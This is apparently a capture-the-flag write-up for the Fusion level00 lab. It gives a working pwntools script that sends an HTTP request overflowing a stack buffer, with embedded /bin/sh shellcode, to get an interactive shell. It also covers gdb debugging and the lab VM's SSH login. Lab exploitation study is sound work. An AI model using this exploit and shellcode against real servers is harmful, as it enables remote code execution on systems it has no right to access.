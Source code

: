 * I started by creating a python script to implement an initial exploit which I can test.
* The idea for an exploit was as follows:
	1. Extreact `buffer` base address from connection prompt.
	2. build a payload that on translated by `fix_path` overflows the `resolved` buffer local variable until the return-address.
		* Payload effective return-address will point at the `buffer + len(payload_without_shellcode)`
	3. Send the payload to the server and go into interactive mode with `pwntools` python library.
	4. Waith for `/bin/sh` shell.
* The following is the script content:
```Python
#! /usr/bin/python3

import re
import pwn
import time
import struct

p = pwn.remote('192.168.1.23', 20000)
resp = p.readuntil(':-)\n')
buffer_addr = int(re.findall('0x(.+?) ', resp.decode())[0], 16)
print(hex(buffer_addr))
path = b'/tmp/aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa'
get = b'GET '
header = b' HTTP/1.1'
shellcode = b'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'
payload = get + path + struct.pack("<II", buffer_addr, buffer_addr + len(get) + len(path) + 8 + len(header)) + header + shellcode
input()
p.sendline(payload)
p.interactive()

```
---
## Debugging the Exploit
My script didn't work on the first try, so I went on to debug my exploit code. To debug my exploit I needed to attach with `gdb` to the client process on the server-side.
I connected with `ssh` to the Fusion machine. `ssh fusion@<Fusion-VM-IP>` with password `godmode`.
Meanwhile I executed the script I wrote, which creates a connection to the server and wait for `input()` from me.
Than, On the `Fusion-VM` I listed the processes actively running using `ps -ef | grep level00` and in `gdb` attached to the process.
From there I started debugging the process.

After debugging the the exploit, I understood that I should position the `buffer` address once before the address of the shellcode.
This is because the program uses the `leave` assembly directive in this calling convention which assigns the stored `$ebp` from the stack into `$esp` register.
Which is used in the shellcode. That way the exploit won't cause the program to segfault.
